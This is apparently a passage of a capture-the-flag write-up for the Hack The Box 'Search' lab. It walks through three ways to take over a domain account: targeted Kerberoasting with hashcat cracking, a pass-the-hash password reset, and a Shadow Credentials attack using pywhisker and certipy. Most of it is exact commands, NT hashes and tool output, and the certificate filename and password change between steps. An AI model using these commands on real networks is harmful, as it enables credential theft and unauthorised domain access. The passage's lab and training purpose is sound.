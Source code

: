 - `./targetedKerberoast.py -v -d 'search.htb' -u 'BIR-ADFS-GMSA$' -H e1e9fd9e46d0d747e1595167eedcec0f`

```
krb5tgs$23$*Tristan.Davies$SEARCH.HTB$search.htb/Tristan.Davies*$bb68fdd1cf5aa0 ...
```

- `hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt`

We can crack the hash! 

### 2. Methode - Force Change Password (Work)

- `pth-net rpc password "tristan.davies" "newP@ssword2022" -U "serach.htb"/"BIR-ADFS-GMSA$"%"ffffffffffffffffffffffffffffffff":"e1e9fd9e46d0d747e1595167eedcec0f" -S "research"`

We can now login with 

- `impacket-wmiexec 'search/tristan.davies:newP@ssword2022@10.129.229.57'`

### 3. Methode - Shadow Credentials attack (Work)

- `./pywhisker.py -d "search.htb" -u 'BIR-ADFS-GMSA$' -H e1e9fd9e46d0d747e1595167eedcec0f --target 'tristan.davies' --action "add"`

```
[*] Searching for the target account
[*] Target user found: CN=Tristan Davies,CN=Users,DC=search,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 1ae06a28-034b-a9ac-14a7-18d342cf6c0b
[*] Updating the msDS-KeyCredentialLink attribute of tristan.davies
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: KaXaIC8h.pfx
[*] Must be used with password: 6KsCIMM6Ri789CgxI8IR
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

Now remove the password from the cert

[Pass the Certificate](https://www.thehacker.recipes/a-d/movement/kerberos/pass-the-certificate)

- `certipy-ad cert -export -pfx "hgiH7cho.pfx" -password "FI59NFeHMPaB9bj8y1yU" -out "unprotected.pfx"`
- `certipy-ad auth -pfx "unprotected.pfx" -dc-ip 10.129.229.57 -username 'tristan.davies' -domain 'search.htb'`

```
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: tristan.davies@search.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'tristan.davies.ccache'
[*] Trying to retrieve NT hash for 'tristan.davies'
[*] Got hash for 'tristan.davies@search.htb': aad3b435b51404eeaad3b435b51404ee:fb54d1c05e301e024800c6ad99fe9b45
```

- `impacket-wmiexec 'search/tristan.davies@10.129.229.57' -hashes aad3b435b51404eeaad3b435b51404ee:fb54d1c05e301e024800c6ad99fe9b45`

→ root.txt
